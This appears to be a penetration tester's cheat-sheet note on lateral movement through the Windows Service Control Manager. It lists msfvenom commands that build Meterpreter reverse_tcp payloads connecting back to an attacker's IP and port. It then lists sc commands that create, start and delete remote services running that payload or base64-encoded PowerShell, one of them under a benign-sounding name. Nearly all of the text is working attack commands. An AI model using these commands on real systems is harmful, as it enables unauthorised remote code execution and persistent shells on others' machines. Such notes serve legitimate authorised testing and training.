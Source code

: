 # Service Control Manager

## 01 - Usage

After we generate a reverse/bind shell refer to the techniques to copy the shell via [[Remote File Access|SMB]]

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe-service -o shellsvc.exe

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh-cmd
```

Here's the following syntax

```
C:\> sc \\<IP> create <ServiceSVC> binpath= "c:\path\to\shellsvc.exe"

C:\> sc \\<IP> start <ServiceSVC>

C:\> sc \\<IP> delete <ServiceSVC>
```

## 02 - Use Cases

```
C:\> sc \\<IP> create pwshpayload binpath= "powershell -E <base64_encoded>"

C:\> sc \\<IP> start pwshpayload

C:\> sc \\<IP> delete pwshpayload

C:\> sc \\<IP> create TestMaintenance binpath= "c:\path\to\shellsvc.exe"

C:\> C:\> sc \\<IP> start TestMaintenance

C:\> C:\> sc \\<IP> delete TestMaintenance
```